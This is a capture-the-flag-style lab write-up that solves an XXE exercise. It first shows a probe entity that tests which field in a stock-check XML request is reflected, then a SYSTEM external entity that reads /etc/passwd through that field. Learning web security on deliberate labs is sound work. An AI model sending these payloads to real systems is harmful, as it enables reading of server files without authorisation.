



# Lab: Exploiting XXE using external entities to retrieve files

> Lab Objective: inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

- Check Stock for any Product, and intercept this request in order to review the response.

- You'll notice that the POST body is in XML Format.
  

- In order to check which data value will be reflected within the response, use this payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe "HELLO">]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

Note: put `&xxe;` in all data value, until `HELLO` is reflected in the response.

- You'll notice that `HELLO` is reflected when using `&xxe;` within `productId` value.
  

- Therefore, use this payload to retrieve contents of `/etc/passwd` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The file content is retrieved successfully.
  

- The lab is solved successfully.
  

---
